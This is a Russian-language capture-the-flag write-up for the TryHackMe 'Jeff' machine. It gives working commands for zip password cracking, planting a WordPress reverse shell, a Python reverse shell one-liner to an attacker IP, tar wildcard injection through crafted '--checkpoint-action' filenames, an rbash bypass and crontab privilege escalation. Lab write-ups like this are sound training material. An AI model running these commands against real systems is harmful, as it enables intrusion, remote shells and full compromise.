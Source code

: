 # Jeff

:white_check_mark:  [**Zip pass brute**](#Zip_pass_brute)

:white_check_mark:  [**Curl ftp server**](#Curl_ftp_server)

:white_check_mark:  [**Docker escape via ftp and tar wildcards**](#Docker_escape_via_ftp_and_tar_wildcards)

:white_check_mark:  [**Curl ftp server sending files**](#Curl_ftp_server_sending_files)

:white_check_mark:  [**Symbolic link for opening files**](#Symbolic_link_for_opening_files)

:white_check_mark:  [**Rbash(command restriction)**](#Rbash_command_restriction)

:white_check_mark:  [**Crontab(privesc)**](#Crontab_privesc)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV jeff.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7e:43:5f:1e:58:a8:fc:c9:f7:fd:4b:40:0b:83:79:32 (RSA)
|   256 5c:79:92:dd:e9:d1:46:50:70:f0:34:62:26:f0:69:39 (ECDSA)
|_  256 ce:d9:82:2b:69:5f:82:d0:f5:5c:9b:3e:be:76:88:c3 (ED25519)
80/tcp open  http    nginx
|_http-title: Jeffs Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница **jeff.thm**:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/1.png)

На главной странице все кнопки не активны.

Просканируем директории.
```
feroxbuster -u http://jeff.thm -x php,html,txt,js,c,asm,zip 
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/2.png)

Просканировав директории находим файл backup.zip.
```
http://jeff.thm/backups/backup.zip
```

<a name="Zip_pass_brute"></a>

Скачаем файл. Для того чтобы его распаковать требуется ввести пароль.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/3.png)

Попробуем пробрутить пароли. Для этого будем использоваться fcrackzip.
```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/4.png)

Распаковываем архив. В архиве находим пароль от аккаунта wordpress.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/5.png)

Пробрутим поддомены с помощью gobuster.
```
gobuster vhost -u jeff.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -t 100
```

```
Found: wordpress.jeff.thm (Status: 200) [Size: 25901]
```

Главная страница wordpress.jeff.thm.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/6.png)

С помощью wpscan попробуем найти имена пользователей.
```
wpscan --url wordpress.jeff.thm --enumerate u
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/7.png)

Перейдем на страницу аутентифицакии.
```
http://wordpress.jeff.thm/wp-admin/
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/8.png)

Авторизуемся с имеющимися данными и входим в систему.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/9.png)

Будем использовать wordpress theme editor для получения обратной оболочки. Перейдем в Appearance -> Theme Editor. Выберем тему Twenty Seventeen, файл 404 Template. Закидываем php_reverse_shell изменив ip на свой и сохраняем изменения.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/10.png)

Запускаем слушатель и открываем файл в строке браузера.
```
http://wordpress.jeff.thm/wp-content/themes/twentyseventeen/404.php
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/11.png)

Отправим на машину linpeas. Закончив сканирование можно заметить, что мы находимся в докере.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/12.png)

Также можно заметить файл ftp_backup.php

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/13.png)

<a name="Curl_ftp_server"></a>

Прочтем файл. В нем содержатся данные пользователя, которые мы можем использовать для подключения по ftp.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/14.png)

В докере не установлен ftp, поэтому будем использовать curl, чтобы просмотреть, что находится на сервере ftp.
```
curl -s -v -P - 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/'
```

<a name="Docker_escape_via_ftp_and_tar_wildcards"></a>

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/15.png)

Чтобы получить shell с основной машины будем использовать уязвимость wildcards.
```
echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<YOUR_IP\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'" > shell.sh

echo "" > "/tmp/--checkpoint=1"

echo "" > "/tmp/--checkpoint-action=exec=sh shell.sh"
```

<a name="Curl_ftp_server_sending_files"></a>

Загрузим эти файлы на сервер ftp.
```
curl -v -P - -T "/tmp/shell.sh" 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'

curl -v -P - -T "/tmp/--checkpoint=1" 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'

curl -v -P - -T "/tmp/--checkpoint-action=exec=sh shell.sh" 'ftp://backupmgr:SuperS1ckP4ssw0rd123!@172.20.0.1/files/'
```

Запускаем слушатель и через некоторое время получаем обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/16.png)

Закнем linpeas на машину и заупстим скрипт. Можно обнаружить странный файл.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/17.png)

Перейдем в эту директорию. В ней мы можем обнаружить сообщение. 

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/18.png)

Файл systool при попытке получения пароля пользователя jeff открывает файл message.txt. Также файл systool запускается из группы pwman. Попробуем найти файлы с группой pwman.
```
find / -group pwman 2>/dev/null
```

<a name="Symbolic_link_for_opening_files"></a>

Находим файл jeff.bak, но прочитать мы его не можем.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/19.png)

Создадим символическую ссылку на файл. Чтобы вместо message.txt открыть jeff.bak.
```
rm /opt/systools/message.txt

ln -s /var/backups/jeff.bak /opt/systools/message.txt

/opt/systools/systool
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/20.png)

<a name="Rbash_command_restriction"></a>

Получаем пароль от пользователя jeff. Зайдем по ssh.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/21.png)

Попробовав прочитать файл, мы получаем ошибку. Выполнение команд ограничено.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/22.png)

Для обхода ограничения будем использовать следующую команду.
```
ssh jeff@jeff.thm -t "bash -l"
```
```
ssh -l: Принудительное выделение псевдотерминала. Может быть использовано для выполнения произвольных экранных программ на удаленной машине.

bash -l: заставляет bash действовать так, как если бы он был вызван как оболочка входа в систему.
```

Снова подключившись по ssh, мы не можем использовать команды, так как PATH не содержит нужные директории. Добавим их сами.
```
export PATH=/bin:/usr/bin:/usr/sbin:/usr/local/bin
```

Теперь мы можем прочесть флаг.

<a name="Crontab_privesc"></a>

Проверим права командой sudo -l.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Jeff/23.png)

Мы имеем права к crontab. С помощью crontab откроем bash.
```
sudo crontab -e
```

Прописываем :!/bin/bash и нажимаем Enter. Мы получили рута.
